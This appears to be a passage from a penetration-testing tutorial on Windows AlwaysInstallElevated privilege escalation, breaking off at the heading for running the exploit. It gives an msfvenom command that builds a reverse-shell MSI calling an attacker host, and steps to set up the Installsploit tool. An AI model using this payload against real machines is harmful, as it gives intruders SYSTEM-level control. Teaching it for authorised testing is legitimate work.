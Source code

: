 1. Attacker checks registry for AlwaysInstallElevated.
2. Finds both user and machine keys enabled.
3. Crafts a malicious MSI installer containing payload.
4. Runs the MSI → SYSTEM privileges obtained.

---

### ✅ Example MSI Attack Flow

1. Create a reverse shell MSI file.
2. Run the MSI using `msiexec`.
3. SYSTEM shell opens.

---

## ➤ **4.4.3 How to Create a Malicious MSI**

You can create an MSI using tools like **msfvenom**, **Installsploit**, or manually with scripts.

### ✅ Using msfvenom

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f msi -o shell.msi
```

This will generate a malicious MSI that opens a reverse shell when installed.

---

### ✅ Using Installsploit (Automated Tool)

1. Install Python tools like Installsploit:

```bash
git clone https://github.com/thewhiteh4t/Installsploit
cd Installsploit
pip3 install -r requirements.txt
python3 installsploit.py
```

2. Create payload, set LHOST and LPORT.

3. Export MSI file.

---

### ✅ Manual MSI Creation

You can craft an MSI using tools like **Orca** or **WiX Toolset**, but msfvenom is faster for practice.

---

## ➤ **4.4.4 How to Run the MSI and Exploit**
